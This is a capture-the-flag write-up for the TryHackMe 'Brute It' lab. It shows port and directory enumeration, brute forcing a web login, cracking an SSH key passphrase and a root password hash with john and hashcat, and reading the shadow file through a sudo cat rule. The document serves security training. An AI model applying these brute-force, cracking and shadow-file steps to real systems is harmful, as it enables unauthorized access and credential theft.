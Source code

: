 # Brute It (THM)

- https://tryhackme.com/room/bruteit
- March 6, 2023
- easy

---

## Enumeration

### Nmap

1. 22/ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
2. 80/http Apache httpd 2.4.29 ((Ubuntu))

### HTTP

- brute force directories

```sh
$ ffuf -u http://$IP/FUZZ -w /usr/share/wordlists/common.txt -e php,txt -c -t 128

admin      [Status: 301, Size: 314, Words: 20, Lines: 10]
index.html [Status: 200, Size: 10918, Words: 3499, Lines: 376]
```

- view page soruce at admin

```
 <!-- Hey john, if you do not remember, the username is admin -->
```

- I used turbo intruder in Burp and found
  `user:xavier`

- Enter with that credentials
- got id_rsa key
- crack the id_rsa passphrase with john

```sh
$ /opt/tools/john/run/ssh2john.py id_rsa > forjohn.txt
$ john forjohn.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

- `rockinroll` and username is john as it mentioned in website

## User Access

- Enter ssh with above credentials
- don't forget to change permission of id_rsa to 600

```sh
john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```

- John has sudo permission to cat command and read the shadow file and copy the root password

## Root Access

- crack root password with hashcat

```sh
$ hashcat -m 1800 root_cipher /usr/share/wordlists/rockyou.txt
```

- `root:football`

---